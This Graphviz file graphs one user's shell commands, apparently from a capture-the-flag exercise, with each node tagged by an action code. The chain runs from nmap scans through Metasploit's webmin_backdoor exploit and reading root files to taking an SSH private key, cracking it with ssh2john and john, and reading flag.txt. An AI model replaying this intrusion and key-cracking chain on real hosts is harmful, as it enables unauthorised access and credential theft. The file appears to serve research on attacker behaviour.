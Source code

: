 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 M0 "]
	5 [label="nmap -sC 172.18.1.5 A1 "]
	6 [label="nmap -sV 172.18.1.5 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 U"]
	8 [label="msfconsole M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin M3 "]
	13 [label="searchsploit webmin U"]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb U"]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb A15 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ U"]
	18 [label="ls A10 "]
	19 [label="./47230.rb U"]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb A4 "]
	21 [label="search 1.920 U"]
	22 [label="ruby 47230.rb U"]
	23 [label="./47230.rb U"]
	24 [label="nano 47230.rb U"]
	25 [label="use exploit/unix/webapp/webmin_backdoor M4 "]
	26 [label="show options M5 "]
	27 [label="set LHOST=10.1.135.83 M6 "]
	28 [label="show options  U"]
	29 [label="set LHOST=10.1.153.83 U"]
	30 [label="set LHOST 10.1.153.83 U"]
	31 [label="exploit U"]
	32 [label="show options U"]
	33 [label="set RHOSTS 172.18.1.5 U"]
	34 [label="exploit U"]
	35 [label="set RPORT 10000 U"]
	36 [label="exploit  U"]
	37 [label="show options  U"]
	38 [label="set LHOST 192.168.129.103 U"]
	39 [label="exploit  U"]
	40 [label="cat /root/flag A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A9 A11 A12 A17 "]
	43 [label="cat webmin.schema A9 A11 A12 A17 "]
	44 [label="cat help A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A9 A11 A12 A17 "]
	48 [label="cat config A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema A9 A11 A12 A17 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	59 [label="grep -rnw /root/ U"]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE U"]
	61 [label="ls A10 "]
	62 [label="cat FILE A9 A11 A12 A17 "]
	63 [label="grep -rnw /root/ -e '[0-9]+([^0-9]+[0-9]+){4}' U"]
	64 [label="ls A10 "]
	65 [label="y U"]
	66 [label="cd /root/ U"]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt M9 "]
	69 [label="ifconfig U"]
	70 [label="nmap 172.18.1.5/24 U"]
	71 [label="ps aux U"]
	72 [label="ifconfig U"]
	73 [label="nmap 172.18.1.5 U"]
	74 [label="nmap 172.18.1.5/24 U"]
	75 [label="nmap 172.18.1.1 U"]
	76 [label="nmap 172.18.1.1/24 U"]
	77 [label="nmap 172.18.1.5 U"]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt A11 A12 A17 "]
	81 [label="ls A10 "]
	82 [label="cd /root/ U"]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt A11 A12 A17 "]
	85 [label="ls A10 "]
	86 [label="ifconfig U"]
	87 [label="fping -ag 172.18.1.5/24 U"]
	88 [label="apt get-install nmap U"]
	89 [label="nmap U"]
	90 [label="ls A10 "]
	91 [label="cd /var U"]
	92 [label="ls A10 "]
	93 [label="cd webmin U"]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A11 A12 A17 "]
	96 [label="clear U"]
	97 [label="export TERM=xterm U"]
	98 [label="clear U"]
	99 [label="l U"]
	100 [label="ls A10 "]
	101 [label="cd .. U"]
	102 [label="ls A10 "]
	103 [label="cd backups U"]
	104 [label="ls A10 "]
	105 [label="cd /home U"]
	106 [label="ls A10 "]
	107 [label="cd alice U"]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A11 A12 A17 "]
	111 [label="cd .. U"]
	112 [label="ls A10 "]
	113 [label="cd bob U"]
	114 [label="ls A10 "]
	115 [label="cd .. U"]
	116 [label="cd debian U"]
	117 [label="ls A10 "]
	118 [label="cd .. U"]
	119 [label="cd eve U"]
	120 [label="ls A10 "]
	121 [label="cd .. U"]
	122 [label="cd bob U"]
	123 [label="cd /var U"]
	124 [label="ls A10 "]
	125 [label="cd local U"]
	126 [label="ls A10 "]
	127 [label="cd .. U"]
	128 [label="cd webmin U"]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap U"]
	134 [label="ls A10 "]
	135 [label="cd .. U"]
	136 [label="ls A10 "]
	137 [label="cd backusp U"]
	138 [label="ls A10 "]
	139 [label="cd backups U"]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A11 A12 A17 "]
	142 [label="clear U"]
	143 [label="ls A10 "]
	144 [label="cd .. U"]
	145 [label="cd .. U"]
	146 [label="ls A10 "]
	147 [label="cd /home U"]
	148 [label="ls A10 "]
	149 [label="cd /home U"]
	150 [label="ls A10 "]
	151 [label="cd alice U"]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A11 A12 A17 "]
	155 [label="cd .. U"]
	156 [label="ls A10 "]
	157 [label="cd bob U"]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A11 A12 A17 "]
	161 [label="cd .. U"]
	162 [label="ls A10 "]
	163 [label="cd debian U"]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A11 A12 A17 "]
	169 [label="cd .ansible U"]
	170 [label="ls A10 "]
	171 [label="cd tmp U"]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	174 [label="cd .. U"]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	177 [label="cd .. U"]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole U"]
	183 [label="use unix/webapp/webmin_backdoor U"]
	184 [label="show options U"]
	185 [label="set RHOSTS 172.18.1.5 U"]
	186 [label="set LHOST 10.1.135.83 U"]
	187 [label="set RPORT 10000 U"]
	188 [label="cat .progle A11 A12 A17 "]
	189 [label="ls A10 "]
	190 [label="cd /root/ U"]
	191 [label="export TERM=xterm U"]
	192 [label="clear U"]
	193 [label="ls A10 "]
	194 [label="cd /home U"]
	195 [label="ls A10 "]
	196 [label="cd eve U"]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history M11 "]
	200 [label="cd /var/www U"]
	201 [label="ls A10 "]
	202 [label="cd /var U"]
	203 [label="ls A10 "]
	204 [label="cd webmin U"]
	205 [label="ls A10 "]
	206 [label="cat blocked A12 A17 "]
	207 [label="cd blocked U"]
	208 [label="cd .. U"]
	209 [label="ls A10 "]
	210 [label="cd local U"]
	211 [label="ls A10 "]
	212 [label="cd .. U"]
	213 [label="ls A10 "]
	214 [label="scp 10.1.17.4 U"]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	218 [label="cd backups U"]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A12 A17 "]
	221 [label="ls A10 "]
	222 [label="cd .. U"]
	223 [label="l U"]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	226 [label="cd local U"]
	227 [label="ls A10 "]
	228 [label="cd .. U"]
	229 [label="cd log U"]
	230 [label="ls A10 "]
	231 [label="cat user.log A12 A17 "]
	232 [label="ls A10 "]
	233 [label="cd .. U"]
	234 [label="l U"]
	235 [label="ls A10 "]
	236 [label="cd lock U"]
	237 [label="l U"]
	238 [label="sls A10 "]
	239 [label="cd .. U"]
	240 [label="ls A10 "]
	241 [label="cd mail U"]
	242 [label="ls A10 "]
	243 [label="cd .. U"]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	246 [label="cd webmin U"]
	247 [label="ls A10 "]
	248 [label="cd .. U"]
	249 [label="ls A10 "]
	250 [label="ifconfig U"]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	254 [label="cd /home U"]
	255 [label="ls A10 "]
	256 [label="cd eve U"]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit U"]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 M16 "]
	261 [label="cd /home/eve U"]
	262 [label="ls A10 "]
	263 [label="cd .ssh U"]
	264 [label="l U"]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 U"]
	267 [label="cat id_rsa M12 "]
	268 [label="ssh2john A14 "]
	269 [label="cat id_rsa A17 "]
	270 [label="touch id_rsa U"]
	271 [label="nano id_rsa U"]
	272 [label="nano id_rsa U"]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa M13 "]
	276 [label="python ssh2john.py id_rsa > hash A14 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa A17 "]
	281 [label="john hash A14 "]
	282 [label="cd /usr/share/ U"]
	283 [label="ls A10 "]
	284 [label="cd wordlists/ U"]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 U"]
	288 [label="ls A10 "]
	289 [label="cat top-secret A17 "]
	290 [label="cd top-secret U"]
	291 [label="ls A10 "]
	292 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	256 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 261 [constraint=false]
	261 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 264 [constraint=false]
	264 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 270 [constraint=false]
	270 -> 271 [constraint=false]
	271 -> 272 [constraint=false]
	272 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 282 [constraint=false]
	282 -> 283 [constraint=false]
	283 -> 284 [constraint=false]
	284 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 290 [constraint=false]
	290 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
